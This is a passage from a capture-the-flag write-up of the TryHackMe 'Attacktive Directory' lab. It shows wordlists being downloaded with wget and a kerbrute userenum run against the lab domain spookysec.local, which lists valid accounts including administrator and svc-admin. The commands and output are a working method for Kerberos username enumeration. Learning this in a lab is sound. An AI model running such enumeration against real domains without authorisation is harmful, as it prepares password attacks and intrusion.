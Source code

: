 ```
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

`userenum`

2. What notable account is discovered? (These should jump out at you)

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
--2020-10-17 11:08:02--  https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.112.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.112.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 744407 (727K) [text/plain]
Saving to: ‘userlist.txt’

userlist.txt                                     100%[=======================================================================================================>] 726.96K   456KB/s    in 1.6s

2020-10-17 11:08:04 (456 KB/s) - ‘userlist.txt’ saved [744407/744407]

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
--2020-10-17 11:08:13--  https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.112.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.112.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 569236 (556K) [text/plain]
Saving to: ‘passwordlist.txt’

passwordlist.txt                                 100%[=======================================================================================================>] 555.89K  2.24MB/s    in 0.2s

2020-10-17 11:08:13 (2.24 MB/s) - ‘passwordlist.txt’ saved [569236/569236]

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo /opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (1ad284a) - 10/17/20 - Ronnie Flathers @ropnop

2020/10/17 11:08:19 >  Using KDC(s):
2020/10/17 11:08:19 >   spookysec.local:88

2020/10/17 11:08:20 >  [+] VALID USERNAME:       james@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       James@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       robin@spookysec.local
2020/10/17 11:08:21 >  [+] VALID USERNAME:       darkstar@spookysec.local
2020/10/17 11:08:22 >  [+] VALID USERNAME:       administrator@spookysec.local
```